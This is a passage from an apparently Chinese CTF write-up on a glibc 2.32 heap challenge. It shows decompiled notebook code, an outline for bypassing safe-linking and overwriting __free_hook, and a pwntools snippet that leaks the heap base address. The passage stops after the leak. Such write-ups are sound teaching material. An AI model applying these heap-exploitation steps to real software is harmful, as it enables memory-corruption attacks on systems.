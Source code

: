 ```plain
unsigned __int64 show_note()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v1);
  if ( v1 <= 0xF )
  {
    if ( notes[v1] )
      puts((const char *)notes[v1]);
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

题目环境 glibc2.32，然后漏洞很明显，只不过更改环境比较麻烦，然后就是比以前多了 safe-linking 机制

### 思路

这个题思路很简单，就是泄露完 heap 后绕过后面 safe-linking，然后直接打 free\_hook

### 详细流程

因为我用的 ubuntu20，所以这里第一步就是按照上面演示的方法去更换 libc，然后就可以开始做题了

```plain
for i in range(7):
    add(i,0x80)

add(7,0x80)
add(8,0x80)

delete(0)
show(0)

heap_addr=u64(p.recv(5)[-6:].ljust(8,'\x00'))<<12
leak('heap_addr ',heap_addr)
```

泄露个堆基地址
